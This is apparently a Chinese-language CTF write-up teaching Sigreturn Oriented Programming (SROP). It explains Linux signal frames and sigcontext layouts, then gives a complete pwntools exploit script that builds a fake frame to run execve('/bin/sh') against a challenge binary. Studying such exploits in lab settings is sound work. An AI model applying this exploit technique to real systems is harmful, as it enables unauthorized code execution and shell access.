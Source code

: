 SQCTF的 当时只道是寻常 [SQCTF-PWN-CrazyCat](https://hnusec-team.feishu.cn/docx/NNWUdbFanoUB0wxUSK9cZHJinIb#share-S57gd77RFox1sAxsDmxcjhzon4g)
TGCTF 的 norop [TGCTF-PWN-CrazyCat](https://hnusec-team.feishu.cn/docx/JsIsd70Dmo0z4BxIalkcE95anCh#share-Pll1dM7sNoOcncxZxsLc7KMxnhb)
之前就听队里师傅问我SROP学了没，这次刚好有个契机就学了
SROP(Sigreturn Oriented Programming)，简单来说就是通过系统调用号为0xf(sigreturn)的系统调用执行一个可以将所有寄存器赋值的函数来实现对所有寄存器的控制，从而直接执行某个函数的操作。
# Signal 机制
signal 机制是类 unix 系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用 kill 来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：
![[Pasted image 20250427151753.png]]
1. 内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。
2. 内核会为该进程保存相应的上下文，**主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址**。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。**需要注意的是，这一部分是在用户进程的****地址空间****的。**之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。
对于 signal Frame 来说，会因为架构的不同而有所区别，这里给出分别给出 x86 以及 x64 的 sigcontext
- x86
```Plain
struct sigcontext{  
    unsigned short gs, __gsh;  
    unsigned short fs, __fsh;  
    unsigned short es, __esh;  
    unsigned short ds, __dsh;  
    unsigned long edi;  
    unsigned long esi;  
    unsigned long ebp;  
    unsigned long esp;  
    unsigned long ebx;  
    unsigned long edx;  
    unsigned long ecx;  
    unsigned long eax;  
    unsigned long trapno;  
    unsigned long err;  
    unsigned long eip;  
    unsigned short cs, __csh;  
    unsigned long eflags;  
    unsigned long esp_at_signal;  
    unsigned short ss, __ssh;  
    struct _fpstate * fpstate;  
    unsigned long oldmask;  
    unsigned long cr2;
};
```
- x64
```Plain
struct _fpstate{  
    /* FPU environment matching the 64-bit FXSAVE layout.  */  
    __uint16_t        cwd;  
    __uint16_t        swd;  
    __uint16_t        ftw;  
    __uint16_t        fop;  
    __uint64_t        rip;  
    __uint64_t        rdp;  
    __uint32_t        mxcsr;  
    __uint32_t        mxcr_mask;  
    struct _fpxreg    _st[8];  
    struct _xmmreg    _xmm[16];  
    __uint32_t        padding[24];
};
struct sigcontext{  
    __uint64_t r8;  
    __uint64_t r9;  
    __uint64_t r10;  
    __uint64_t r11;  
    __uint64_t r12;  
    __uint64_t r13;  
    __uint64_t r14;  
    __uint64_t r15;  
    __uint64_t rdi;  
    __uint64_t rsi;  
    __uint64_t rbp;  
    __uint64_t rbx;  
    __uint64_t rdx;  
    __uint64_t rax;  
    __uint64_t rcx;  
    __uint64_t rsp;  
    __uint64_t rip;  
    __uint64_t eflags;  
    unsigned short cs;  
    unsigned short gs;  
    unsigned short fs;  
    unsigned short __pad0;  
    __uint64_t err;  
    __uint64_t trapno;  
    __uint64_t oldmask;  
    __uint64_t cr2;  
    extension union    {      
        struct _fpstate * fpstate;      
        __uint64_t __fpstate_word;    
        };  
    __uint64_t __reserved1 [8];
};
```
![[Pasted image 20250427151907.png]]
3. signal handler 返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，32 位的 sigreturn 的调用号为 119(0x77)，64 位的系统调用号为 15(0xf)。
# 利用
`SROP`的利用很简单，只需要攻击者可以控制栈空间，即可以向栈空间写入大量（长度至少包含构造的`fake frame`)数据，**然后控制****`rsp`****指向存有我们构造的****`fake frame`****，并控制****`rax`****为****`0xf`****，然后执行****`syscall`****就可以实现****`srop`****的攻击。**
注意是控制`rsp`指向`fake frame`的头部，其他指针除了`rax`外应该都无所谓。
实际构造时发现可能有些非寄存器的位置非零也不影响最后的执行，具体哪些还没细探究过，目前只知道最后两个位置应该不影响
`Fake frame`的构造`pwntools`库有现现成的，可以直接构造
```Python
frame1 = SigreturnFrame()
frame1.rax = constants.SYS_execve
frame1.rdi = binsh
frame1.rsi = 0
frame1.rdx = 0
frame1.rip = 0x401045
```
这边用一题来举例
程序很简单
![[Pasted image 20250427151951.png]]
构造了三个函数，中间`read`，前后`write`，可以控制`rsi`，但无法控制`rdi`，有`0x400`的`read`，足够构造`SROP`链。
```Python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
local = True
debug = True
if local:
    p = process('./pwn01')
    if debug:
        gdb.attach(p, gdbscript='b main')
else:
    ip ,port = "challenge.qsnctf.com:32442".split(":")
    p = remote(ip, port)

pop_rax = 0x40104a
binsh = 0x40203a
syscall = 0x40101d

frame1 = SigreturnFrame()
frame1.rax = constants.SYS_execve
frame1.rdi = binsh
frame1.rsi = 0
frame1.rdx = 0
frame1.rip = 0x401045

payload = p64(0)
payload += p64(pop_rax)
payload += p64(0xf)
payload += p64(0x401042)
payload += bytes(frame1)
p.send(payload)

p.interactive()
```
这里我们直接贴 exp，结合 exp 讲
程序是直接有`binsh`的地址的，那么我们只需要构造 SROP，把他读入到栈上然后`syscall`就可以，那么要考虑的就是控制`rsi`的值，控制`rsi`的值就要用到最后一个`syscall`前面的`mov rsi, rsp;` rsp 始终是指向栈上的，那么我们只需要控制执行`syscall`的时候`rsp`刚好是我们构造的`fake frame`前面即可，这是很好做到的。
![[Pasted image 20250427152016.png]]
可以看到根据我们的 exp，`0x7ffd226a2338`处开始就是我们的`fake frame`，
![[Pasted image 20250427152025.png]]
执行到`syscall`的时`rsi`已经指向了`fake frame`的顶部，可以开始SROP
![[Pasted image 20250427152040.png]]
实际就可以根据我们构造的寄存器来执行`system("/bin/sh")`。